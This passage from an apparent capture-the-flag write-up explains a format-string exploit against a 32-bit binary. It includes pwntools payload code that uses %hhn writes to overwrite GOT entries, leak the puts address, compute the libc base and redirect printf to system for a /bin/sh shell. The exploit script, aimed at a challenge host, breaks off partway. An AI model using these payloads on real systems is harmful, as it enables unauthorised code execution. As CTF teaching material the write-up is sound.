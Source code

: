 Writing 0x40 to the least significant byte of the printf() offset table is easy; the 0x40 doesn't change. However, how do we write the next byte? Well, the fact that we had written 0x40 to an address somewhere indicates that we had already printed out 0x40 bytes. Therefore, for the second byte to write, we can calculate the number of additional characters to print out through the following: 

```
bytesToWrite = int(hex(system)[6:8], 16) - 0x40
payload3 += "%"
payload3 += str(bytesToWrite)
payload3 += "x%12$hhn"
```
What about the third byte? Well, this can be achieved through similar means:

```
thirdbytesToWrite = int(hex(system)[4:6], 16) - int(hex(system)[6:8], 16)
payload3 += "%"
payload3 += str(thirdbytesToWrite)
payload3 += "x%13$hhn"
```

What about the event that the 2nd byte to write is less than 0x40, or that the 3rd byte to write is less than the 2nd byte? It is possible to account for that by calculating the overflow, and subtracting 256 from it, however I was lazy. Since we are ''brute forcing'' 32 bit addresses, I just terminated my exploit when such a scenario presents itself, as it doesn't happen very often.

After a bit of trial and error, system was successfully written to the Global Offset Table of printf. Now the next time we just enter "/bin/sh" to get our shell!

## Full exploit script:
```python
from pwn import *
main = 0x804851b
exit = 0x804a01c
puts_got = 0x804a018
#Payload 1: Overwrite the exit GOT entry to main

sh = remote('stack.overflow.fail', 9002)

payload1 = "AA"
# Setting up the exit() overwrite
payload1 += p32(exit)
payload1 += p32(exit + 1)
payload1 += p32(exit + 2)
payload1 += p32(exit + 3)

payload1 += "%9x%11$hhn"
payload1 += "%106x%12$hhn"

sh.sendline(payload1)
# Leaking the address of puts

payload2 = "AA"
payload2 += p32(puts_got)
payload2 += "%11$s"

sh.sendline(payload2)
sh.recvuntil("\x18\xa0\x04\x08")

puts = u32(sh.recv(4))

log.success("Address of puts: " + hex(puts))
#Calculate libc base address and system
puts_offset = 0x5f140
system_offset = 0x3a940

libc_base = puts - puts_offset
```